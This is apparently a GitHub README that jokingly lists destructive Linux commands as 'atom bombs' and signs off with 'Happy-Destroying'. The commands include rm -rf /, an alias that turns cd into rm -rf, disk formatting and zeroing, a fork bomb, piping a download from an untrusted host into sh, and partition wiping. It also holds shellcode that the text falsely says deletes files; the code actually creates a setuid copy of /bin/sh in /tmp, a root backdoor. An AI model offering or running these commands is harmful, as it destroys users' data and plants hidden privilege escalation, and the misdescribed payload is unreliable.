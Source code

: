 # Hello-Linux
_Say Your Final Words_

## Some Atom Bombs for Linux

```
sudo rm -rf /
sudo umount /
```

This command will delete your entire files on mounted devices!

```
echo "alias cd='rm - rf /'" >> ~/.bash_aliases
```
This command will set alias cd as rm -rf in every new terminal instance.

```
mkfs.ext3 /dev/sda
```
This command will format your /dev/sda device and ofcourse will delete all files on it.

```
:(){:|:&};:
```
This command will run too many processes on your system and causes the computer hang up!

```
wget http://sumber_tak_terpercaya -O- | sh
```
This command will download a shell script from untrusted source and run it when the download finished

```
mv ~/* /dev/null
```
This will move home directory to a place that actually doesn't exist. In other words, it will delete your home directory


```
char esp[] __attribute__ ((section(".text"))) /* e.s.p
release */
= "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x2d\x63\x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
```
Hexadecimal code! Same as the first command, it will delete entire files on your mounted devices


```bash
dd if=/dev/zero of=/dev/sda bs=1M count=1
```
Copilot Suggested this Have not tried yet

```
dd if=/dev/zero of=~/.config/alacritty/alacritty.yml bs=1G count=1024
```
Creates a 1TB file at config/alacritty/alacritty.yml
If you have less storage then See Ya ;-)

Delete all partitions on your disk
```bash
parted /dev/sda mklabel gpt
parted /dev/sda mkpart primary 0% 100%
parted /dev/sda set 1 boot on
parted /dev/sda print
```
Courtesy of [@copilot](https://twitter.com/copilot)


### Happy-Destroying
